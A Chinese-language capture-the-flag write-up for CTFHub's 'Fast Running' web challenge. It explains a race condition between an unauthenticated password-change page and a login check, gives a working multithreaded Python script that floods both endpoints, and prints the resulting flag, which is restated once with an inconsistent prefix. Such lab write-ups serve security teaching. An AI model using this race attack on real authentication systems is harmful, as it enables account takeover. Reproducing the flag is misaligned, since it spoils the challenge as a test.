



### 题目名称：Fast Running

题目来源：CTFHub（原题：2017-赛客夏令营-Web-Fast Running）

题目类别：Web

题目描述：



### 解题思路

打开首页会跳到 index.php?action=login，只有一个密码框，提交到 login_check.php?passwd=，页面上还有「修改密码」的链接，指向 index.php?action=change，表单提交到 change_passwd.php?passwd=&passwd_confirm=。

改密码的页面不需要登录，两次输入不一致会提示「两次密码不一致」，说明代码里确实做了比对；但是改成什么，再用什么去登录，都提示「密码错误」，改密码像是没生效。

试过弱口令、数组绕过、SQL 注入、扫备份文件都不行。题目名字叫 Fast Running，跑得快，这就是提示竞态条件：改密码和登录之间有一个时间窗口，单发请求永远撞不上，必须并发去抢。

### 详细步骤

1. 访问首页，会 302 跳到 index.php?action=login，页面只有一个密码输入框

    ```
    <form action="login_check.php" method="get">
        <input type="text" name="passwd" value="">
    </form>
    ```

2. 页面下方有「修改密码」，指向 index.php?action=change，表单里是新密码和密码确认两个框，提交到 change_passwd.php

    ```
    <form action="change_passwd.php" method="get">
        <input type="text" name="passwd" value="">
        <input type="text" name="passwd_confirm" value="">
    </form>
    ```

3. 改密码页面不需要任何登录状态，直接就能提交；两次密码不一致时会提示「两次密码不一致」，一致时提示「修改成功」

    

4. 但是改完再登录，一直提示「密码错误」，单发请求改密码改不动

    

5. 题目名 Fast Running 提示竞态，所以要并发：一边不停地提交改密码，一边不停地用同一个密码登录，抢「检查旧密码」和「写入新密码」之间的空档

6. 用 Python 开 5 个线程改密码、5 个线程登录，密码统一定成 pwn12345

    ```python
    import http.client, threading, time

    HOST = "challenge-xxx.sandbox.ctfhub.com"
    PORT = 10800
    PW = "pwn12345"
    hit = []

    def change():
        while not hit:
            c = http.client.HTTPConnection(HOST, PORT, timeout=10)
            c.request("GET", "/change_passwd.php?passwd=%s&passwd_confirm=%s" % (PW, PW),
                      headers={"User-Agent": "Mozilla/5.0"})
            c.getresponse().read(); c.close()

    def login():
        while not hit:
            c = http.client.HTTPConnection(HOST, PORT, timeout=10)
            c.request("GET", "/login_check.php?passwd=" + PW,
                      headers={"User-Agent": "Mozilla/5.0"})
            b = c.getresponse().read().decode("utf-8", "replace"); c.close()
            if "密码错误" not in b and "503" not in b:
                hit.append(b)

    for _ in range(5): threading.Thread(target=change, daemon=True).start()
    time.sleep(0.3)
    for _ in range(5): threading.Thread(target=login, daemon=True).start()

    for _ in range(60):
        if hit: break
        time.sleep(1)
    print(hit[0] if hit else "没抢到")
    ```

7. 跑起来几秒后，登录线程拿到的响应里就是 flag

    ```
    ctfhub{65d84cdbb0a78037db44481c}
    ```

    得到 flag{65d84cdbb0a78037db44481c}，获得flag

### Payload

```
/change_passwd.php?passwd=pwn12345&passwd_confirm=pwn12345     并发狂发
/login_check.php?passwd=pwn12345                               并发狂发
```

### flag

ctfhub{65d84cdbb0a78037db44481c}

### 总结&反思
